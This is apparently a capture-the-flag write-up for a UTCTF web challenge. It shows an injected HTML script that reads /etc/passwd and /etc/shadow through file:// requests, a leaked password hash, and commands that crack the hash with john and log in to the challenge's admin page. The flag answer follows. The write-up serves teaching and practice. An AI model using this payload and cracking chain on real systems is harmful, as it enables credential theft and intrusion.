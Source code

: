 #### Challenge:

My friend bet me I couldn't pwn this site. Can you help me break in?

(bruteforcing is not necessary or helpful to solve this problem) `http://web2.utctf.live:9854`

---

#### Solution:

- playing with web page reveals that content can be altered via `window.location.href` or via `XMLHttpRequest` making a great `LFI`

```html
<b>LFI</b>

<script>
    let para = document.createElement("p");
    para.innerText = "/etc/passwd.\n\n";
    let xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", "file:///etc/passwd", false ); 
    xmlHttp.send( null );
    para.innerText += xmlHttp.responseText;
    document.body.appendChild(para);


    para = document.createElement("p");
    para.innerText = "/etc/shadow.\n\n";
    xmlHttp = new XMLHttpRequest();
    xmlHttp.open( "GET", "file:///etc/shadow", false ); 
    xmlHttp.send( null );
    para.innerText += xmlHttp.responseText;
    document.body.appendChild(para);
</script>
```

```
WeakPasswordAdmin:$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:1003:1003::/home/WeakPasswordAdmin:/bin/bash
```

```bash
unshadow ./passwd ./shadow > password.txt
john password.txt
curl 'http://web2.utctf.live:9854/admin' -X POST --data-raw 'username=WeakPasswordAdmin&password=sunshine' | grep -i utflag
```

---

<details><summary>FLAG:</summary>

```
utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}
```

</details>
<br/>
